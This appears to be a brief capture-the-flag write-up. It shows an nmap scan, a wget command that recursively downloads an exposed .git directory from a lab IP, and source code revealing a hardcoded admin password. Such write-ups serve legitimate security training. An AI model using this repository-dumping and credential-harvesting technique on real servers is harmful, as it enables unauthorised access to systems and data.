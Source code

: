 
nmap
```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)

```

`wget -r -np -nH http://10.10.82.211/.git/`


```
if (
          username === "admin" &&
          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
   )
```

We Win!
